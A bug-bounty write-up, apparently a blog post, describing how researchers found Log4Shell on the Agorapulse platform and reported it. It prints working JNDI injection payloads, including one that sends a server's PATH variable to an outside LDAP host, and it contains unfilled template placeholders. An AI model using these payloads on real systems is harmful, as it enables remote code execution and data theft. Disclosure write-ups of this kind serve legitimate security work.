 # LOG4J on Agorapulse



## What is agorapulse:

Agorapulse provides an organization system to stay organized ,save time, better manage your team, your subscription and all the social profiles you added.
Agorapulse basically provides everything an organization  could possibly need for social media marketing and monitoring and management.focusing on social media platforms like facebook,linkedin and twitter,agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar.The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.

## What is Log4j
 
Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats.The biggest concern with Log4j is that it can be used to expose sensitive information and  allows unauthenticated remote code execution. For example, if an attacker can inject malicious code into a Log4j logging statement, they can view passwords, session IDs, and other sensitive data or can execute any arbitrary commands on the vulnerable server.

For more information on Log4j security, see the following resources:
- OWASP Log4j Cheat Sheet
- Log4j Vulnerabilities and Exposures
- Secure Log4j Usage

Log4j vulnerability is a critical vulnerability, affecting Apache Log4j 2 versions 2.0 to 2.14.1, as identified by Chen Zhaojun of the Alibaba Cloud Security Team. NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as CVE-2021–44228. Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.
Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. Due to its dynamic nature and multiple functionality it was a preferable target  for our company. 
So now the target was chosen , we plunged into research mode and figured out how we were going to scan for this vulnerability. We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used numeric numbering to identify the triggered payloads. 

{{examples of identifiable payloads}}


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious code inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : ${jndi:ldap://<Your-Burp-Collab-URL>/a} .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the log4js vulnerability in that framework.



## Demonstration of Impact


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of issues to the vulnerable server or the service. So, we just checked for the DNS pingback from the vulnerable server with our payload. When the victim server logs the request using log4j, then log4j interpolates the string and queries malicious Ldap server and then LDAp server responds with malicious Java class.
The contents of log messages often contain user-controlled data, attackers can insert JNDI references pointing to LDAP servers they control, ready to serve malicious Java classes that perform any action they choose.

In the payload we could use  any arbitrary command that could be executed on the server but in this case we used the following payload just to extract the environment variables of the server.

Payload : ${jndi:ldap://54.147.33.250:1389/${env:PATH}}

{{screenshot}}

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical.

## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a couple of days and rewarded our finding.

After their fix was implemented we  tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.
